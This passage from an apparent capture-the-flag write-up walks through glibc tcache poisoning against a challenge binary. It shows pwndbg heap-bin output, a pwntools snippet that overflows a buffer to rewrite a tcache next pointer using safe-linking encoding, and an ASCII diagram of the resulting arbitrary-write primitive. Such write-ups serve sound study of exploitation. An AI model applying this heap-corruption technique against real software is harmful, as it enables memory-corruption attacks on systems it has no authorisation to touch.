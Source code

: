 After all this, we finally end up with a stack pointer in the tcache:

```
pwndbg> bins
tcachebins
0x20 [  1]: 0x55555555a2a0 ◂— 0
0x40 [  2]: 0x5555556f1fb0 —▸ 0x5555556cffb0 ◂— 0
0x60 [  7]: 0x7fffffffee08 —▸ 0x1555554046d8 —▸ 0x555555647f88 —▸ 0x555555735f90 —▸ 0x5555556adf90 —▸ 0x55555568bf90 —▸ 0x555555669f90 ◂— 0
fastbins
empty
unsortedbin
empty
smallbins
0x60 [corrupted]
FD: 0x555555757f80 —▸ 0x555555735f80 ◂— 0x5550003f88a5
BK: 0x7fffffffefc3 ◂— 'ode/ctf/la/lamp/lamp_patched'
largebins
empty
```

But we have still some problems:

- Even though we can write to the stack, we don't know the address of the program binary or libc, so we can't write anything *useful*. We need to somehow create a leak by corrupting the stack.
- We only have one stack address in the tcache, and we will need to be able to write to the stack multiple times (at minimum: once to somehow a leak and again to exploit it)
- The address in the tcache points to the program arguments/environment, which is well beyond the bottom of the stack.

Let's start by addressing the second one.

## Tcache Duplication

Remember I mentioned before that we can gain an arbitrary write primitive by corrupting tcache entries? Let's do that now.

```python3
tcache_20_dst_addr = heap_base + 0x2a0
tcache_40_dst_addr = heap_base + 0x197fb0
tcache_overwrite_addr = heap_base

p.send(b"18")
p.send(b"T" * (tcache_40_dst_addr - tcache_20_dst_addr))
p.send(p64(protect(tcache_40_dst_addr, tcache_overwrite_addr)))
p.send(b"\n")
```

```
        +--------+<----------------------------\
        | tcache |                             |
        |        |                             |
     /--|0x20    |                             |
     |  |        |                             |
  /-----|0x40    |                             |
  |  |  |        |                             |
  |  |  |        |                             |
  |  |  +--------+                             |
  |  |                                         |
  |  |  +--------+                             |
  |  \->|    next|->NULL                       |
  |     +TTTTTTTT+                             |
  |      TTTTTTTT  buffer overflow to replace  |
  |      TTTTTTTT   tcache[40]->next with: ----/
  |     +TTTTTTTT+
  \---->|    next|
        +--------+
```